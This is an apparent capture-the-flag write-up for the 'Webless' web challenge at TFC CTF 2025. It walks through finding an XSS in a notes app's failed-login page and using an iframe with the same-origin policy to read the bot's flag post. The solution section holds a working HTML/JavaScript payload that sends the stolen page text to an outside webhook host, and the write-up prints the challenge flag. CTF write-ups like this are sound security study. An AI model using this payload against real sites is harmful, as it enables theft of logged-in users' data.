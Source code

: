 ## TFC CTF 2025 - Webless writeup


## Challenge Description
![](../untitled-1_20250901140257001.png)
This is basically a notes app where we can post our notes and it is a session based app. You can toggle your note to be hidden that are only visible to us (not relevent). There is a bot that submits the flag into its session and opens a new window with attacker controlled URL. So it is a client side challenge. Can we find a xss 😺pspss? 
## Finding bugs
i assumed that we are dealing with xs-leak (idk why i thought that). But my assumption was destroyed by the CSP the `/post/id` had which is `Content-Security-Policy : script-src 'none'; style-src 'self'` alr... maybe i can import post A into post B and cloud the post A with css selectorss??.. Nope.. nothing..  
  
 But during the process..  i thought how the `<>` and` "` are not being encoded.. example.. \<h1\> are working fine. i went into more digging and found this
 ![](untitled-1_20250901141903345.png)
 In this line `<div id="description">{{ post.description | safe }}</div>` the `safe` lets us embed those html characters without being encoded. And i looked even more into the html pages to find this in the invalid.html  
 ![](untitled-1_20250901142211713.png)
 so.. a failed login with username `<script\>alert(1)` works.. Ha. Bugg 👾
## Attack plan
But the attack seems unclear.. how can we take advantage of a user(bot) that is already logged in.. can we make the user access the invalid page and again the post/0 page without manual login??  yess we can!  
  
 we can take advantage of iframes and SOP policy.. The plan goes like this  
   
 1. We create a iframe inside we trigger the XSS. Since iframes dont send cookie, the session wont be maintained and the xss can be triggered.
 2. The XSS opens a new tab to post/0(flag) 
 3. since the iframe and the new tab is SOP iframe can read the content of the new tab.
 4. we use a webhook to get the flag 
 5. END
## Conclusion
Really cool technique.. took a shower to figure it out myself tho. Felt really good to solve this one. This technique made me go wtff and i thought why not share it. Bye Byee! xxx0xxxx
## Solution

```html
    <iframe src="http://127.0.0.1:5000/login?username=
    <script>
    var w = window.open('/post/0');
    setTimeout(()=>
    {
    if(w)
    {
    window.open('http://webhook.com/aa?q='%2Bw.document.body.children[2].innerText);
    }
    },1500)
    </script>
    &password=a" >
    
    </iframe>
    <!-- <script>setTimeout(()=>{window.reportReady = true;},9000);</script> -->
```
#### Flag
![](untitled-1_20250901144359744.png)
`TFCCTF{1_h4v3_n0_f1ag_ideas_i_hope_you_liked_it_9102}`
